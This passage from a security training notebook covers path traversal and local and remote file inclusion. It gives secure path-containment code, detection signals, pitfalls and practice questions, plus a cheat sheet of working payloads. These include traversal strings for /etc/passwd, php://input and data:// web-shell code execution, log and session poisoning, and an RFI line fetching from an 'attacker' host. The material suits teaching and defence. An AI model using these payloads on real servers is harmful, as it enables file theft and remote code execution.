# Python — canonicalize + containment. Note: os.path.join with an absolute arg is UNSAFE alone.
import os
BASE = os.path.realpath("/var/www/files")
def safe_read(name):
    full = os.path.realpath(os.path.join(BASE, name))
    if not (full == BASE or full.startswith(BASE + os.sep)):
        raise PermissionError("traversal blocked")     # real target must live under BASE
    return open(full, "rb").read()
```

```java
// Java — canonical path containment check.
File base = new File("/var/www/files").getCanonicalFile();
File target = new File(base, userName).getCanonicalFile();
if (!target.toPath().startsWith(base.toPath())) throw new SecurityException("traversal");
```

```javascript
// Node — resolve then verify it stays within base.
const path = require("path");
const BASE = path.resolve("/var/www/files");
const full = path.resolve(BASE, userName);
if (full !== BASE && !full.startsWith(BASE + path.sep)) throw new Error("traversal");
```

All three do the decisive thing: they check the *resolved* path, not the raw input, so every Part-3
bypass (encoding, nesting, absolute paths) collapses to the same canonical target that either is or
isn't inside `BASE`. The even-safer alternative — an allow-list/indirection table mapping `home →
/var/www/pages/home.html` — removes user-controlled path components entirely and is preferred wherever
the set of files is enumerable.

**Detection signals:**

| Signal | Where | Indicates |
|---|---|---|
| Requests with `../`, `..%2f`, `%252f`, `..\`, `%00` in params | WAF / access logs | Traversal / LFI probing |
| Access to `/etc/passwd`, `win.ini`, `php://filter`, log/session paths | App/WAF logs | File-read / LFI attempts |
| `php://input`, `data://`, `http://` in a page/include param | App logs | RFI / wrapper-RCE attempts |
| Web process reading files outside its normal set | EDR / auditd / FIM | Successful traversal/LFI |
| `<?php` appearing in User-Agent/log fields then a log include | Log/WAF correlation | Log-poisoning RCE |
| Web-server user spawning shells | EDR | LFI/RFI achieved code execution |

**Blue-team usage:** WAF rules for traversal/wrapper tokens catch the bulk of probing; `auditd`/EDR on
the web user reading unusual files (SSH keys, `/etc/passwd`, other apps' configs) catches successful
reads; and the log-poisoning tell — attacker-controlled `<?php` in a log followed by an include of that
log — is a high-signal correlation. **IR use case:** on suspected LFI, review which files the web
process read (auditd), look for wrapper/traversal payloads in access logs, and check logs/session files
for injected PHP; if RCE is suspected, hunt for the web user spawning shells and any dropped files.

## Part 14: Common Pitfalls & Gotchas

- **Filtering `../` without canonicalizing.** Encoding, double-encoding, nesting, and absolute paths
  bypass string filters; resolve the real path and check containment.
- **Decode-once-then-check.** Double-encoding (`%252f`) defeats it; decode fully before validating.
- **Blocklisting instead of allow-listing.** Map user input to known-safe files via a lookup table;
  don't try to enumerate every bad path.
- **Assuming LFI is "just" file read.** `php://filter` discloses source/secrets, and log/session/upload
  poisoning turns LFI into RCE — rate it as potential code execution.
- **Leaving `allow_url_include`/`allow_url_fopen` on.** Enables RFI and `php://input`/`data://` RCE;
  turn them off.
- **Over-privileged web process.** If it can read SSH keys and every config, traversal is catastrophic;
  least-privilege + `open_basedir`/chroot limits the blast radius.
- **Includable logs/session files.** Keep them out of reach of user-driven includes.
- **Windows blind spots.** `..\`, `..%5c`, and Windows target files matter; don't test only Linux
  payloads.
- **Dumping secrets in a PoC.** Prove with `/etc/passwd`/a benign file or `php://filter` on a non-secret;
  don't exfiltrate real credentials.

## Part 15: Final Revision / Summary

- The root cause is **attacker input reaching a file path** (Part 1); severity depends on the sink —
  **read/serve** → path traversal (arbitrary file read), **include/execute** → LFI (read *and* RCE),
  **fetch-remote-and-execute** → RFI (direct RCE).
- **Path traversal** (Part 2) climbs out of the intended directory with `../` to read `/etc/passwd`,
  source, configs, keys; **bypasses** (Part 3) defeat naive filters via URL/double-encoding, nested
  sequences, absolute paths, null bytes, and Windows separators.
- **LFI** (Part 4) *executes* the included file; **PHP wrappers** (Part 5) — `php://filter` (source
  disclosure), `php://input`/`data://` (RCE with `allow_url_include`) — and **log/session/upload
  poisoning** (Part 6) escalate LFI to RCE even with wrappers off. **RFI** (Part 7) includes an
  attacker-hosted file for direct RCE but needs `allow_url_include`.
- **Defend** (Part 13): avoid user-controlled paths (allow-list/indirection), **canonicalize and verify
  containment**, decode fully before validating, never `include` user-named files, disable
  `allow_url_include`/`allow_url_fopen`, and **least-privilege/sandbox** the web process's file access.
- Detection: WAF for traversal/wrapper tokens, `auditd`/EDR for the web user reading unusual files or
  spawning shells, and the log-poisoning correlation (`<?php` in a log → include of that log).
- **Beyond PHP** (Part 11): the same root cause appears in Java (`..;/`, jar-slip), .NET (`..\`,
  `web.config`), Node (`sendFile`/template names), and Python (the `os.path.join` absolute-path
  pitfall) — fingerprint the stack, then pick payloads and target files accordingly.
- **Advanced LFI** (Part 12): PHP **filter chains** and **`phar://` deserialization** escalate LFI to
  RCE even with `allow_url_include` off and no poison vector — which is why the only complete defense is
  never including user-controlled paths at all.

## Part 16: Cheat Sheet / Quick Reference

**Path traversal**

```text
?file=../../../../etc/passwd                 # Linux proof
?file=..\..\..\..\Windows\win.ini            # Windows proof
?file=..%2f..%2fetc%2fpasswd                 # URL-encoded
?file=..%252f..%252fetc%252fpasswd           # double-encoded
?file=....//....//etc/passwd                 # nested (non-recursive strip)
?file=/etc/passwd                            # absolute path
?file=../../etc/passwd%00.png                # null byte (legacy, appended ext)
?file=....//....//etc/passwd                 # nested (survives one-pass ../ strip)
?file=..%5c..%5cWindows%5cwin.ini            # %5c = backslash (Windows)
```

**LFI wrappers**

```text
?page=php://filter/convert.base64-encode/resource=config     # read source (decode base64)
?page=php://filter/read=string.rot13/resource=index          # alt filter to alter output
?page=expect://id                                            # if expect ext loaded → direct cmd
POST ?page=php://input   body: <?php system($_GET['cmd']);?> # RCE (allow_url_include)
?page=data://text/plain;base64,PD9waHA...                    # inline RCE
```

**LFI-to-RCE (no wrappers)**

```text
UA: <?php system($_GET['cmd']); ?>  → include ../../var/log/apache2/access.log&cmd=id   # log poisoning
include ../../var/lib/php/sessions/sess_<PHPSESSID>&cmd=id                              # session poisoning
```

**RFI**

```text
?page=http://attacker/shell.txt?          # trailing ? comments out an appended extension

# Advanced LFI (allow_url_include off): php_filter_chain_generator → php://filter chain that
# emits your PHP as the included content → RCE with no writable file needed.
```

**Defense map**

| Control | Kills |
|---|---|
| Allow-list / indirection (id → path) | the whole class |
| `realpath` + `startsWith(base)` containment | encoding/nesting/absolute bypasses |
| Decode fully before validating | double-encoding |
| No `include` of user input | LFI/RFI |
| `allow_url_include=Off`, `allow_url_fopen=Off` | RFI, `php://input`/`data://` RCE |
| `open_basedir` / chroot / least privilege | blast radius of any read |
| Fingerprint stack + Windows payloads | missed non-Linux/non-PHP variants |
| Treat LFI as potential RCE | filter-chain / phar / poisoning escalation |

## Part 17: Practice Labs & Resources

- **PortSwigger Web Security Academy — File path traversal (all labs):** "simple case", "absolute path
  bypass", "traversal sequences stripped non-recursively", "superfluous URL-decode", "validation of
  start of path", and "validation of file extension with null byte bypass". One-to-one with Parts 2–3.
  Free.
- **DVWA "File Inclusion" (low/medium/high) and bWAPP:** LFI/RFI, wrappers, and null-byte practice.
- **HackTheBox / TryHackMe — LFI, "File Inclusion", and "Log Poisoning" rooms/modules:** guided
  LFI-to-RCE via `php://filter`, log, and session poisoning.
- **SecLists (`Fuzzing/LFI`, `Fuzzing/Windows-files`) + ffuf/wfuzz and LFISuite:** payload sweeps and
  automation for Part 9.
- **OWASP Path Traversal & File Inclusion pages, WSTG-ATHZ-01 (traversal) / WSTG-INPV:** authoritative
  testing and defense references.
- **Disclosed HackerOne reports (filter `path traversal` / `lfi`):** accepted file-read and LFI-to-RCE
  write-ups for technique and safe-PoC framing.

A concise way to hold the whole chapter: **the vulnerability is user input reaching a file operation,
and the severity is set by the sink** — a *read* sink caps at arbitrary file disclosure, an *include*
sink (LFI) reaches RCE via wrappers, filter chains, phar, or poisoning, and a *remote-include* sink
(RFI) reaches RCE directly. Every filter bypass in Part 3 exists because the app validated the *input
string* instead of the *resolved path*, so the single defensive idea that dominates all others is
"decide on the canonical, resolved target — or better, on an allow-listed identifier — never on the raw
user string." An attacker's job is to find where that principle was skipped; a defender's job is to
apply it at every file operation.

**Practice questions**

1. A download endpoint concatenates `?file=` into `/var/www/files/`. Give the payload to read
   `/etc/passwd`, then explain three distinct bypasses if the app strips `../`, and the one server-side
   change (post-resolution) that defeats all of them.
2. Explain how `php://filter/convert.base64-encode/resource=config` lets you read the *source* of
   `config.php` when a normal include would only execute it, and why this is a safe way to demonstrate
   LFI impact.
3. `allow_url_include` is off, so `php://input` and RFI don't work, but you have LFI and can control your
   `User-Agent`. Describe the full log-poisoning chain to RCE, including which file you include and why
   the injected code executes.
4. Contrast LFI and RFI on: the location of the included file, the PHP setting each requires, prevalence,
   and how each reaches RCE. Explain why RFI is rare on modern PHP.
5. Given a file-download feature that must let users retrieve their own invoices by name, design a
   server-side implementation that is immune to path traversal, and explain why canonicalization plus a
   containment check (or an indirection table) prevents every bypass in Part 3.
6. On a modern PHP target you have LFI but `allow_url_include` is off, no upload exists, and you can't
   find a writable includable log. Describe the technique that can still yield RCE using only the
   `php://filter` wrapper, and explain why it means LFI should always be rated as potential RCE.
7. Explain the `os.path.join('/base', user)` pitfall in Python when `user` is an absolute path, why it
   defeats a naive "prepend the base directory" defense, and the containment check that fixes it.

With this chapter the Server-Side notebook (Notebook 26) is complete: SSRF steered the server's
outbound requests, insecure upload placed executable content on the server, and path traversal/LFI/RFI
steered the server's file reads and includes — three faces of the same principle that attacker-
controlled input must never be allowed to redirect a privileged server operation. The canonical
defenses recur across all three: validate against an allow-list rather than a blocklist, resolve and
verify the true target of any operation, deny by default, and run the server with the least privilege
that still does the job.

Each chapter in this notebook is self-contained but they compose: an upload that lands a polyglot on disk plus an LFI that includes it is the archetypal chained RCE, and SSRF frequently supplies the internal reach that makes a file-read or inclusion bug reachable in the first place.
